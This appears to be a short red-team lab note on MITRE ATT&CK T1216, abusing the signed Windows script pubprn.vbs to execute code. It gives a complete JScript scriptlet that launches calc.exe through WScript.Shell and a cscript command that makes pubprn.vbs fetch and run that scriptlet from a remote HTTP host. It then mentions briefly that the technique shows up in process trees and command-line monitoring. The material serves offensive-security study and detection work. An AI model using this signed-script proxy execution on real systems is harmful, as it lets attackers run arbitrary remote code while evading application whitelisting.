



# T1216: pubprn.vbs Signed Script Code Execution

## Execution

Using pubprn.vbs, we will execute code to launch calc.exe. First of, the xml that will be executed by the script:


```markup
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"   
	>
</registration>

<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");	
]]>
</script>

</scriptlet>
```



```csharp
cscript /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://192.168.2.71/tools/mitre/proxy-script/proxy.sct
```


## Observations

Calc.exe gets spawned by cscript.exe which immediately closes leaving the calc.exe process orphan:





Monitoring commandlines can be useful in detecting the script being abused:



## References



